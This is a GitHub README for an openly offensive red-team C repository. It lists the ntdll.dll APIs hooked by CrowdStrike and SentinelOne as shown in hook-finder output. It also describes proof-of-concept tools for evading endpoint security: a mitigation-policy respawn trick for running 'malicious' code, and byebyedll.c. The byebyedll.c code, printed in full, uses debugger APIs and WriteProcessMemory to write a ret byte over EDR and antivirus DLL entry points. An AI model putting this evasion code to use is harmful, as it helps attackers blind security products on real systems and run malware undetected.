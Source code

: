 # RedTeamCCode
Red Team C code repo

# CrowdStrike hooked ntdll.dll APIs

```
C:\Users\dev\Desktop>hook_finder_64.exe C:\Windows\System32\ntdll.dll
Loading C:\Windows\System32\ntdll.dll
------------------------------------------
BASE                    0x00007FFAE0030000      MZÉ
PE                      0x00007FFAE00300E8      PE
ExportTableOffset       0x00007FFAE01812A0
OffsetNameTable         0x00007FFAE01838C0
Function Counts         0x97e (2430)
------------------------------------------
NtAllocateVirtualMemory is hooked
NtAllocateVirtualMemoryEx is hooked
NtDeviceIoControlFile is hooked
NtGetContextThread is hooked
NtMapViewOfSection is hooked
NtMapViewOfSectionEx is hooked
NtProtectVirtualMemory is hooked
NtQueryInformationThread is hooked
NtQueueApcThread is hooked
NtQueueApcThreadEx is hooked
NtReadVirtualMemory is hooked
NtResumeThread is hooked
NtSetContextThread is hooked
NtSetInformationProcess is hooked
NtSetInformationThread is hooked
NtSuspendThread is hooked
NtUnmapViewOfSection is hooked
NtUnmapViewOfSectionEx is hooked
NtWriteVirtualMemory is hooked
ZwAllocateVirtualMemory is hooked
ZwAllocateVirtualMemoryEx is hooked
ZwDeviceIoControlFile is hooked
ZwGetContextThread is hooked
ZwMapViewOfSection is hooked
ZwMapViewOfSectionEx is hooked
ZwProtectVirtualMemory is hooked
ZwQueryInformationThread is hooked
ZwQueueApcThread is hooked
ZwQueueApcThreadEx is hooked
ZwReadVirtualMemory is hooked
ZwResumeThread is hooked
ZwSetContextThread is hooked
ZwSetInformationProcess is hooked
ZwSetInformationThread is hooked
ZwSuspendThread is hooked
ZwUnmapViewOfSection is hooked
ZwUnmapViewOfSectionEx is hooked
ZwWriteVirtualMemory is hooked
------------------------------------------
Completed
```
# SentinelOne hooked ntdll.dll APIs

```
C:\Users\dev\Desktop>sentinel_hook_finder_64.exe C:\windows\system32\ntdll.dll
Loading C:\windows\system32\ntdll.dll
------------------------------------------
BASE                    0x00007FF8EDA30000      MZÉ
PE                      0x00007FF8EDA300E8      PE
ExportTableOffset       0x00007FF8EDB812A0
OffsetNameTable         0x00007FF8EDB838C0
Functions Count         0x97e (2430)
------------------------------------------
KiUserApcDispatcher is hooked
LdrLoadDll is hooked
NtAllocateVirtualMemory is hooked
NtCreateThreadEx is hooked
NtCreateUserProcess is hooked
NtFreeVirtualMemory is hooked
NtLoadDriver is hooked
NtMapUserPhysicalPages is hooked
NtMapViewOfSection is hooked
NtOpenProcess is hooked
NtProtectVirtualMemory is hooked
NtQuerySystemInformation is hooked
NtQuerySystemInformationEx is hooked
NtQueueApcThread is hooked
NtQueueApcThreadEx is hooked
NtReadVirtualMemory is hooked
NtResumeThread is hooked
NtSetContextThread is hooked
NtSetInformationProcess is hooked
NtSetInformationThread is hooked
NtTerminateProcess is hooked
NtUnmapViewOfSection is hooked
NtWriteVirtualMemory is hooked
RtlAddVectoredExceptionHandler is hooked
RtlGetNativeSystemInformation is hooked
ZwAllocateVirtualMemory is hooked
ZwCreateThreadEx is hooked
ZwCreateUserProcess is hooked
ZwFreeVirtualMemory is hooked
ZwLoadDriver is hooked
ZwMapUserPhysicalPages is hooked
ZwMapViewOfSection is hooked
ZwOpenProcess is hooked
ZwProtectVirtualMemory is hooked
ZwQuerySystemInformation is hooked
ZwQuerySystemInformationEx is hooked
ZwQueueApcThread is hooked
ZwQueueApcThreadEx is hooked
ZwReadVirtualMemory is hooked
ZwResumeThread is hooked
ZwSetContextThread is hooked
ZwSetInformationProcess is hooked
ZwSetInformationThread is hooked
ZwTerminateProcess is hooked
ZwUnmapViewOfSection is hooked
ZwWriteVirtualMemory is hooked
------------------------------------------
Completed
```

# PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON.c

Is a proof-of-concept for the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` trick it will enforce the policy then spawn itself again the respawned process have the policy enforced allowing you run "malicious" code with the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` been set.

# byebyedll.c

Is a proof-of-concept that enforce the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` policy and also debug the child process (itself) and monitor Dlls that are loaded using Windows debugger APIs. It detect Dlls based on the path and patch it. The idea is to prevent EDR and AV Dlls loaded into your process from executing properly. This is a POC the blacklisted Dlls is set to `user32.dll`.  

The event is monitored using the `LOAD_DLL_DEBUG_EVENT` event. 

The DLL location is then retrieved using `event.u.UnloadDll.lpBaseOfDll`

The code is patched using the following functions:

```
VOID *GetEntryPointOffset(CHAR *start, DWORD dwSize, HANDLE hProc) {

    CHAR* mem = GlobalAlloc(GPTR, dwSize);
    DWORD dwBytesRead = 0;

    ReadProcessMemory(hProc, start, mem, dwSize, &dwBytesRead);

    DWORD dwBaseDLLInitializeOffset = *((DWORD*)mem + (0x120 / 4));

#ifdef DEBUG
    printf("dwBaseDLLInitializeOffset offset 0x%x\n", dwBaseDLLInitializeOffset);
#endif

    VOID *dwBaseDLLInitialize = (VOID*)start + dwBaseDLLInitializeOffset;

#ifdef DEBUG
    printf("dwBaseDLLInitialize offset 0x%p\n", dwBaseDLLInitialize);
#endif

    GlobalFree(mem);
    return dwBaseDLLInitialize;
}

VOID ModifyMem(CHAR *start, DWORD dwSize, HANDLE hProc) {
#ifdef DEBUG
    printf("Cleaning HANDLE 0x%p 0x%p length: %d\n", hProc, start, dwSize);
#endif
    VOID* EntryPoint = GetEntryPointOffset(start, dwSize, hProc);
    DWORD dwOut = 0;
    DWORD dwOld = 0;

#ifdef DEBUG
    printf("EntryPoint at 0x%p\n", EntryPoint);
#endif

    VirtualProtectEx(hProc, EntryPoint, 1, PAGE_READWRITE, &dwOld);
    WriteProcessMemory(hProc, EntryPoint, "\xc3", 1, &dwOut);
#ifdef DEBUG
    printf("Size of bytes written: %d\n", dwOut);
#endif
}
```

Verbose messages can be removed before the code is compiled by setting `DEBUG` as `FALSE`.

# Credit 
Mr.Un1k0d3r RingZer0 Team
